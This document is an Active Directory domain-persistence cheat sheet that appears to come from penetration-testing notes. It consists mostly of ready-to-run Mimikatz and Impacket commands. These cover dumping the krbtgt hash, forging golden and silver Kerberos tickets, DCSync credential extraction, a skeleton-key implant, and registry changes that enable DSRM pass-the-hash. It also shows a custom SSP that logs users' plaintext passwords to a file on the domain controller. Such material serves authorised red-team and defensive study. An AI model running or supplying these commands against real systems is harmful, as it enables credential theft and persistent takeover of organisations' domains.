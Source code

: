 # Active Directory Domain Persistence

## Domain Persistence

### Golden Ticket Attack

Execute mimikatz on DC as DA to grab krbtgt hash:

```text
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <DC'sName>
```

On any machine:

```text
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<DomainName> /sid:<Domain's SID> /krbtgt:
<HashOfkrbtgtAccount>   id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

### DCsync Attack

DCsync using mimikatz \(You need DA rights or DS-Replication-Get-Changes and DS-Replication-Get-Changes-All privileges\):

```text
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DomainName>\<AnyDomainUser>"'
```

DCsync using secretsdump.py from impacket with NTLM authentication

```text
secretsdump.py <Domain>/<Username>:<Password>@<DC'S IP or FQDN> -just-dc-ntlm
impacket-secretsdump htb.local/username@10.10.10.161
```

DCsync using secretsdump.py from impacket with Kerberos Authentication

```text
secretsdump.py -no-pass -k <Domain>/<Username>@<DC'S IP or FQDN> -just-dc-ntlm
```

> **Tip:** 
>
>  /ptt -&gt; inject ticket on current running session 
>
>  /ticket -&gt; save the ticket on the system for later use

### Silver Ticket Attack

```text
Invoke-Mimikatz -Command '"kerberos::golden /domain:<DomainName> /sid:<DomainSID> /target:<TheTargetMachine> /service:
<ServiceType> /rc4:<TheSPN's Account NTLM Hash> /user:<UserToImpersonate> /ptt"'
```

[SPN List](https://adsecurity.org/?page_id=183)

### Skeleton Key Attack

Exploitation Command ran as DA:

```text
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <DC's FQDN>
```

Access using the password "mimikatz"

```text
Enter-PSSession -ComputerName <AnyMachineYouLike> -Credential <Domain>\Administrator
```

### DSRM Abuse

_What is this?: Every DC has a local Administrator account, this accounts has the DSRM password which is a SafeBackupPassword. We can get this and then pth its NTLM hash to get local Administrator access to DC!_

Dump DSRM password \(needs DA privileges\):

```text
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName <DC's Name>
```

This is a local account, so we can PTH and authenticate but we need to alter the behavior of the DSRM account before PTH:

1. Connect on DC:

   ```text
   Enter-PSSession -ComputerName <DC's Name>
   ```

2. Alter the Logon behavior on the registry:

   ```text
   New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -PropertyType DWORD -Verbose
   ```

3. If the property already exists:

   ```text
   Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -Verbose
   ```

Then just PTH to get local admin access on DC!

### Custom SSP

_What is this?: We can set our on SSP by dropping a custom dll, for example mimilib.dll from mimikatz, that will monitor and capture plaintext passwords from users that logged on!_

Get current Security Package:

```text
$packages = Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\" -Name 'Security Packages' | select -ExpandProperty  'Security Packages'
```

Append mimilib:

```text
$packages += "mimilib"
```

Change the new packages name

```text
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\" -Name 'Security Packages' -Value $packages
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name 'Security Packages' -Value $packages
```

Alternative solution:

```text
Invoke-Mimikatz -Command '"misc::memssp"'
```

Now all logons on the DC are logged to -&gt; `C:\Windows\System32\kiwissp.log`

## Reference

{% embed url="https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet/blob/master/README.md\#domain-persistence" %}





